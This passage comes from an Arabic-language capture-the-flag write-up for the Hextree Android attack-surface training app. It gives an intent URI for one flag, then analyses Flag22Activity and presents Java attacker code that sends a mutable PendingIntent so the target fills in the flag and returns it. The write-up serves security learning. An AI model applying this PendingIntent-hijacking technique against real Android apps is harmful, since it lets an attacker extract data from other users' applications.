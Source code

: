 ```txt
intent:#Intent;package=io.hextree.attacksurface;action=io.hextree.action.GIVE_FLAG;S.action=flag;S.open=flag;B.flag=true;end;
```

### Flag 22

#### تحليل الكود

```java
    public void onCreate(Bundle bundle) {
        PendingIntent pendingIntent = (PendingIntent) getIntent().getParcelableExtra("PENDING");
        if (pendingIntent != null) {
            try {
                Intent intent = new Intent();
                intent.getExtras();
                intent.putExtra("success", true);
                this.f.addTag(intent);
                intent.putExtra("flag", this.f.appendLog(this.flag));
                pendingIntent.send(this, 0, intent);
                success(null, this);
            } catch (Exception e) {
                e.printStackTrace();
            }
        }
    }
```

الـ activity بيشيك على Pending intent اسمه `"PENDING"` ولو النتيجة موجودة بيضيف للـ intent `"success"` `true` و `"flag"` بعدين يبعته تاني

#### الحل

محتاجين نبعت Mutable intent عشان الـ app يقدر يضيف محتوى ليه

```java
	Context context = this;
	Intent receivedIntent = getIntent();
	
	if (receivedIntent.getParcelableExtra("PENDING") != null) {  
	    String flag = receivedIntent.getStringExtra("flag");  
	    Log.d("Flag22", flag);  
	}else{  
	    Log.d("Flag22", "???");
	    Intent atackIntent = new Intent();  
		atackIntent.setClassName(getPackageName(),getPackageName()+ ".pendingIntent");  
		  
		PendingIntent pendingIntent = PendingIntent.getActivity(context, 0, atackIntent, PendingIntent.FLAG_MUTABLE);  
		  
		Intent senderIntent = new Intent();  
		senderIntent.setClassName("io.hextree.attacksurface", "io.hextree.attacksurface.activities.Flag22Activity");  
		senderIntent.putExtra("PENDING", pendingIntent);  
		startActivity(senderIntent);
}
```
